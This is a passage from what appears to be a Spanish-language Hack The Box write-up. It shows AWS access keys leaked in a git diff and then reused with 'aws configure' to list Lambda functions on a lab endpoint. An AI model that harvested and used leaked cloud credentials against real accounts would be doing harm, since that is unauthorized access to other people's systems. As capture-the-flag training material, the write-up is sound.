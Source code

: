 ```bash
+from boto3.session import Session
+
+
+session = Session(
+    aws_access_key_id='AQLA5M37BDN6FJP76TDC',
+    aws_secret_access_key='OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A',
+    region_name='us-east-1',

```

Se ha conseguido detectar los parámetros que nos permitirán realizar un ataque autenticado, por lo que procederemos a configurar el perfil.

```bash
┌─[root@kali]─[/home/user/aws/]
└──╼ aws configure                                            
AWS Access Key ID [None]: AQLA5M37BDN6FJP76TDC
AWS Secret Access Key [None]: OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB
Default region name [None]: us-east-1
Default output format [None]: json
```

Ahora podremos navegar a través del endpoint, en el cual listaremos todas las funciones ```lambda``` disponibles.

```bash
┌─[root@kali]─[/home/user/aws/]
└──╼ aws --endpoint-url=http://cloud.epsilon.htb lambda list-functions 
{
    "Functions": [
        {
            "FunctionName": "costume_shop_v1",
            "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:costume_shop_v1",
            "Runtime": "python3.7",
            "Role": "arn:aws:iam::123456789012:role/service-role/dev",
            "Handler": "my-function.handler",
            "CodeSize": 478,
            "Description": "",
            "Timeout": 3,
            "LastModified": "2023-09-02T22:49:49.458+0000",
            "CodeSha256": "IoEBWYw6Ka2HfSTEAYEOSnERX7pq0IIVH5eHBBXEeSw=",
            "Version": "$LATEST",
            "VpcConfig": {},
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "4ce5eca2-2aa9-44a3-8d2a-cb03d7dad80c",
            "State": "Active",
            "LastUpdateStatus": "Successful",
            "PackageType": "Zip"
        }
   ]
}

```
